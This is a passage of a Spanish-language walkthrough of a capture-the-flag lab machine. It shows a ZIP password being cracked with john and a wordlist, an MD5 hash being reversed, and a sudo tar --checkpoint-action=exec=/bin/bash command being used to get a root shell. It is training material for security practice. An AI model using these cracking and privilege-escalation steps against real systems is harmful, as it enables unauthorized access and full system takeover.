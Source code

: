 Ahora realizamos el ataque de fuerza bruta para obtener la contrasena
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 256/256 AVX2 8x])
Cost 1 (HMAC size) is 64 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
121288           (File.zip/Credentials/Credentials.txt)
```

Ahora si decomprimimos el archivo
```bash
7z x File.zip # 121288
```

Tenemos una carpeta que contiene este archivo, **Credentials.txt** que si revisamos su contenido tenemos lo siguiente:
```bash
File: Credentials.txt
───────────────────────────────────────────
User: operatorx
       
Password: d0970714757783e6cf17b26fb8e2298f
```

Tenemos credenciales validas para el usuario **operatorx**, ASi que nos logueamos como este usuario
Ahora por su longitud es un **hashmd5** usamos este recurso para desemcriptarla [hashdecrypt](https://10015.io/tools/md5-encrypt-decrypt)
```bash
112233 # Contrasena en texto plano
```

Migramos de usuario:
```bash
su operatorx # 112233
```

###### Usuario `[ Operatorx ]`:
Tenemso la flag de usuario
```bash
-rw-r--r-- 1 root      root        33 ago  8 17:43 user.txt
```

Revisando los permsios para este usuario tenemos lo siguente:
```bash
sudo -l 

User operatorx may run the following commands on TheHackersLabs-Operator:
    (ALL) NOPASSWD: /usr/bin/tar
```

Tenemos una via potencial de escalar a **root**
```bash
# Comando para escalar al usuario: ( root )
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

---